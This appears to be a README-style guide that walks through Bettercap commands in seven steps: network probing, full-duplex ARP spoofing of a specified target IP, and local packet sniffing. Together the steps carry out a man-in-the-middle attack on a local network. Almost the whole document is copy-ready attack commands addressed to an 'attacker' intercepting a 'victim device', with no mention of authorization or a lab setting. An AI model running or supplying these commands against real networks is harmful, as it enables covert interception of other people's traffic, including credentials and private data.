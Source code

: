 
---

## Network Probing and ARP Spoofing Configuration

This guide outlines the steps for setting up network probing, ARP spoofing, and packet sniffing on a local network. The configuration will allow for sending probe packets, performing a Man-in-the-Middle (MITM) attack through ARP spoofing, and capturing network traffic from selected targets.
### 1.Start Bettercap:

**Command:**
```
bettercap
```

### 2. Enable Network Probing

**Command:**
```
net.probe on
```
**Description:**
This command activates the network probing feature, which sends various types of probe packets to identify active devices and network configurations.

### 3. Configure ARP Spoofing for Full Duplex

**Command:**
```
set arp.spoof.fullduplex true
```

**Description:**
Enables full-duplex ARP spoofing. This mode allows spoofing ARP replies to both the target and the gateway, facilitating a MITM attack. In this setup, crafted ARP packets are sent to trick selected hosts into sending their traffic through the attacker's machine.

### 4. Set ARP Spoofing Targets

**Command:**
```
set arp.spoof.targets <Target IP>
```

**Description:**
Specifies the IP address of the target device to be spoofed. Replace `<Target IP>` with the actual IP address of the victim device you want to intercept.

### 5. Enable Local Packet Sniffing

**Command:**
```
set net.sniff.local true
```

**Description:**
Activates packet sniffing on the local network. This allows the attacker to capture and analyze data packets sent and received by the target devices.

### 6. Start ARP Spoofing

**Command:**
```
arp.spoof on
```
**Description:**
Begins the ARP spoofing process. This command sends forged ARP packets to the target and the gateway, redirecting the network traffic through the attacker's machine.

### 7. Start Packet Sniffing

**Command:**
```
net.sniff on
```
**Description:**
Initiates the packet sniffing process. With this command, the attacker can monitor and capture all traffic between the target device and the network.

---

